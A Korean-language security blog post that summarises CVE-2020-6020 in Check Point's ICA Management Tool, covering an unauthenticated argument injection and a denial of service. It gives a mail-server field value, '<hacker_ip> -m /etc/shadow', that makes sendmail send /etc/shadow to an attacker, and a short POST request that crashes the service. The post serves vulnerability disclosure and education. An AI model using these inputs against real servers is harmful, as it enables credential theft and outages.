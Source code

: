 ```yaml
---
title: "[하루한줄] CVE-2020-6020: Checkpoint ICA Management Tool에서 발견된 취약점 2가지"
author: idioth
tags: [idioth, argument injection, dos, checkpoint]
categories: [1day1line]
date: 2020-11-26 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[Vulnerabilities in Checkpoint ICA Management Tool](https://swarm.ptsecurity.com/vulnerabilities-in-checkpoint-ica-management-tool/)

## Target

- Checkpoint Security Manager - ICA Management Tool



## Explain

Checkpoint Security Management의 ICA(Internal Certificate Authority) Management Tool에서 Argument Injection과 Denial of Service 취약점이 발견되었습니다. ICA Management Tool은 기본적으로 비활성화되어있으며 `cpca_client set_mgmt_tool on <your certification>`로 활성화할 수 있으며 설정이 활성화되면 http://<smartcenter_ip>:18265/를 통해 접근할 수 있습니다. `cpca_client set_mgmt_tool on -no_ssl`을 통해 활성화할 시 인증 없이 해당 서비스에 접근이 가능하며 Manage Certificates에 접속했을 때 관리자인지 별도의 확인을 진행하지 않습니다.

ICA Management Tool에서 메일을 보내는 프로세스인 cpca는 sendmail 바이너리를 통하여 메일을 전송합니다. sendmail은 파일 전송 기능을 지원하지만 메일을 보낼 때 누가 보내는지 확인을 하지 않으며 최고 권한으로 실행되므로 모든 파일에 접근이 가능합니다. 따라서 인자로 파일 이름을 넘겨주면 해커의 메일 서버로 파일을 전송할 수 있습니다. 

해커가 netcat 등을 통해 서버를 연 후 Configure the CA의 "Management Tool mail server"에 `<hacker_ip> -m /etc/shadow %0a%0a`를 입력하면 해커의 메일 서버에 `/etc/shadow` 파일 내용이 메일 형식으로 날아오게 됩니다.

Denial of Service의 경우 입력 값에 대한 유효성 검사 실패로 인해 발생합니다. 원격 클라이언트가 다음과 같은 형식으로 POST request를 보낼 경우 프로그램이 종료됩니다.

```
POST /file_init?_ HTTP/1.1
Host: checkpoint.host:18265
Cookie: _
Content-Length: 1

q
```